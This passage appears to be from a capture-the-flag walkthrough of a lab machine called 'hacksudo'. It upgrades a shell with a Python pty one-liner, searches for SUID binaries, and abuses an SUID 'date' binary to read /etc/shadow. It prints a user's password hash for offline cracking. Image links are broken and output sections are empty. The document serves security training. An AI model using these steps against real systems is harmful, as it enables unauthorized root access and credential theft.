




4.3 Getting user's shell
1. Run the following command on the connetion opened in the previous point.
python -c 'import pty;pty.spawn("/bin/bash")'
Output:

2. Checked for any SUID binaries.
SUID Executables. SUID (Set User ID) is a type of permission which is given to a file and allows users to execute the file with the permissions of its owner.
If a binary has the SUID bit set, it will have an s appear. If we check the file permissions of the passwd binary, we can see the permissions are -rwsr-xr-x.
We can scan the whole file system to find all files with the SUID bit set, with the following code:
$find / -perm -4000 -type f -exec ls -al {} \; 2>/dev/null
Output:

The binary “date” has an SUID permission and in this case, I could act as root.
3. From https://gtfobins.github.io/gtfobins/date/.

Let's read the “/etc/shadow” file.
www-data@hacksudo:/var/www/html$ date -f /etc/shadow
Output:

You got the hash of the user hacksudo.
$6$cOv4E/VKAe0EVwV4$YScCx10zfi7g4aiLY.qo8QPm2iOogJea41mk2rGk/0JM5AtnrmiyTN5ctNJ0KTLS5Iru4lHWYPug792u3L/Um14. On your Kali Machine, copy the hash to a file called “hash”.